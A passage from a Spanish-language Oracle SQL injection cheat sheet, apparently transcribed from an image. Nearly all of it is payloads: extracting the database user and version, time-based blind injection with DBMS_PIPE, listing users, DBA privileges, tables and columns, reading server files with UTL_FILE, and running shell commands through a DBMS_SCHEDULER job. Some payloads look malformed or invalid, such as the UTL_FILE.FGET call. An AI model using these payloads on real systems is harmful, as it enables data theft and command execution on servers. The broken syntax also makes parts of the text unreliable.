 Para extraer el nombre de usuario actual:

```
' || (SELECT USER FROM dual) || '  
```
Para obtener la versión de Oracle:
```
' || (SELECT banner FROM v$version WHERE rownum = 1) || '  
```
>Si devuelve errores con datos, podemos seguir extrayendo más información.

#### **b) Time-Based Blind SQLi**

Oracle no tiene `pg_sleep()` ni `WAITFOR DELAY`, pero se puede usar `DBMS_PIPE.RECEIVE_MESSAGE`:

```
' || DBMS_PIPE.RECEIVE_MESSAGE('X',5) || '  
```
Si la aplicación se retrasa 5 segundos, la inyección funciona.

---
### **3. Explotación Avanzada en Oracle**

#### **a) Listar Usuarios de la Base de Datos**
```
'SELECT username FROM all_users;--
```
Para ver los usuarios con privilegios:
```
'SELECT grantee FROM dba_sys_privs WHERE privilege = 'DBA';--
```
#### **b) Listar Tablas y Columnas**

>Si podemos hacer consultas, pero no conocemos las tablas:
```
SELECT table_name FROM all_tables;
```
Para encontrar columnas dentro de una tabla:
```
'SELECT column_name FROM all_tab_columns WHERE table_name = 'USERS';--
```
#### **c) Leer Archivos del Servidor**

Si tenemos permisos suficientes, puedes leer archivos del sistema con `UTL_FILE`:

```
SELECT UTL_FILE.FGET('C:\oracle\admin\orcl\udump\alert_orcl.log') FROM dual;
```
Esto leería un log de Oracle en Windows.

#### **d) Ejecución de Comandos con `DBMS_SCHEDULER`**

Si tenemos privilegios elevados, podemos ejecutar comandos en el sistema:

```
'BEGIN  
  DBMS_SCHEDULER.create_job(  
    job_name => 'cmd_exec',  
    job_type => 'EXECUTABLE',  
    job_action => '/bin/bash -c "whoami > /tmp/output.txt"',  
    enabled => TRUE  
  );  
END;--
```
Luego puedes leer `/tmp/output.txt` para ver la salida del comando.

---